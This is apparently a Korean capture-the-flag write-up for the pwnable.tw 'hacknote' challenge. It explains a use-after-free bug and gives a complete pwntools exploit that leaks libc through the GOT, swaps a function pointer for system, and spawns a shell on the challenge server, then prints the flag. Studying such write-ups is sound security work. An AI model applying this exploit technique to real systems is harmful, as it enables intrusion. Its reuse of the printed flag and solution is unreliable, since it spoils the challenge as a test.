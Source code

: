 ```yaml
---
layout: post
title: "[pwnable.tw] hacknote 풀이"
date: 2018-08-01 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```


>## hacknote [200 pts]
### A good Hacker should always take good notes!
### `nc chall.pwnable.tw 10102`
### [hacknote](https://pwnable.tw/static/chall/hacknote)
### [libc.so](https://pwnable.tw/static/libc/libc_32.so.6)

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/pwnable.tw/hacknote/01.png)
{: refdef}

평범평범

{: refdef: style="text-align: center;"}
![main](/img/pwnable.tw/hacknote/02.png)
{: refdef}

UAF!

{: refdef: style="text-align: center;"}
![func_alloc](/img/pwnable.tw/hacknote/03.png)
{: refdef}

우선 func_add를 보면 특이하게 `puts_next`라는 함수를 청크에 넣어주네요.

{: refdef: style="text-align: center;"}
![func_fill](/img/pwnable.tw/hacknote/04.png)
{: refdef}

`puts`의 인자가 특이하네요. 아마 `func_print`에서 쓰려고 넣어둔거 같아요.

{: refdef: style="text-align: center;"}
![func_fill](/img/pwnable.tw/hacknote/05.png)
{: refdef}

`func_delete`는 별거 없고 `func_print`를 보면 `(*note_list[v1])(note_list[v1])`으로 위에서 본 `puts_next`를 사용해서 출력하네요.

- - -
# 0x01. 취약점 증명

우선 `UAF`가 잘 되는지 봐야하니까 대충 아무 값이나 넣어서 확인해 볼게요.

```python
def func_add(size, content):
	s.recvuntil("Your choice :")
	s.sendline("1")
	s.recvuntil("Note size :")
	s.send(str(size))
	s.recvuntil("Content :")
	s.send(content)

def func_delete(index):
	s.recvuntil("Your choice :")
	s.sendline("2")
	s.recvuntil("Index :")
	s.send(str(index))

def func_print(index):
	s.recvuntil("Your choice :")
	s.sendline("3")
	s.recvuntil("Index :")
	s.send(str(index))
```

함수 선언

```python
func_add(16, "A")
func_add(16, "B")
func_delete(0)
func_delete(1)

func_add(8, "C"*8)
func_print(0)
```

{: refdef: style="text-align: center;"}
![func_fill](/img/pwnable.tw/hacknote/06.png)
{: refdef}

타란!

이제 	`puts_next`자리에 다른 함수의 주소를 넣거나 `puts_next`의 인자를 바꾸거나 등을 할 수 있어요.

- - -
# 0x02. 공격 방법

1. memory leak

2. `puts_next`대신 `system`을 넣음

3. 인자를 조절해 `system("/bin/sh")` 실행


처음엔 memory leak부터 해야해요.

그러니까 `puts_next`는 일단 가만히 두고 그 인자로 `puts_got`를 넣을게요.

```python
puts_got = elf.got["puts"]
puts_off = libc.symbols["puts"]
system_off = libc.symbols["system"]

func_add(16, "A")
func_add(16, "B")
func_delete(0)
func_delete(1)

payload = p32(puts_next)
payload += p32(puts_got)

func_add(8, payload)
func_print(0)
real_puts = u32(s.recv(4))

real_base = real_puts - puts_off
real_system = real_base + system_off

print "[*] real_base : " + hex(real_base)
print "[*] real_puts : " + hex(real_puts)
print "[*] real_system : " + hex(real_system)
```

{: refdef: style="text-align: center;"}
![func_fill](/img/pwnable.tw/hacknote/07.png)
{: refdef}

"/bin/sh"의 주소를 안 구하는 이유는 아까 위에서 본 함수 호출 방식 때문이에요.

`puts_next`는 `*(al+4)`를 사용해서 인자를 받아서 상관없었는데 `puts_next`대신 `system`을 넣으면 `system(real_system~~~~)` 이런식으로 실행이 되어서 "/bin/sh" 문자열의 주소가 아닌 문자열 그 자체를 넣어줘야해요.

그리고 `system(real_system;/bin/sh\0)` 이런식으로 세이콜론을 사용해서 `system("/bin/sh")`를 실행시킬거라서 12자가 넘어가요. 그러면 다른 위치로 청크를 만들어서 `UAF`가 발생하지 않아요.

그래서 "/bin/sh"대신 "sh", "dash", "bash" 등을 사용해야해요.

- - -
# 0x03. 익스플로잇

"sh"는 안돼서 "dash"로 했어요.

```python
from pwn import *
#context.log_level = "debug"

#HOST = "localhost"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10102

s = remote(HOST, PORT)

elf = ELF("./hacknote")
#libc = ELF("./libc-2.27.so")
libc = ELF("./libc_32.so.6")
pause()

puts_next = 0x0804862b
puts_got = elf.got["puts"]
puts_off = libc.symbols["puts"]
system_off = libc.symbols["system"]

def func_add(size, content):
	s.recvuntil("Your choice :")
	s.sendline("1")
	s.recvuntil("Note size :")
	s.send(str(size))
	s.recvuntil("Content :")
	s.send(content)

def func_delete(index):
	s.recvuntil("Your choice :")
	s.sendline("2")
	s.recvuntil("Index :")
	s.send(str(index))

def func_print(index):
	s.recvuntil("Your choice :")
	s.sendline("3")
	s.recvuntil("Index :")
	s.send(str(index))

func_add(16, "A")
func_add(16, "B")
func_delete(0)
func_delete(1)

payload = p32(puts_next)
payload += p32(puts_got)

func_add(8, payload)
func_print(0)
real_puts = u32(s.recv(4))

real_base = real_puts - puts_off
real_system = real_base + system_off

print "[*] real_base : " + hex(real_base)
print "[*] real_puts : " + hex(real_puts)
print "[*] real_system : " + hex(real_system)

payload = p32(real_system)
payload += ";dash"

func_delete(2)
func_add(12, payload)
func_print(0)

s.interactive()
```

### FLAG{Us3_aft3r_fl3333_in_h4ck_not3}
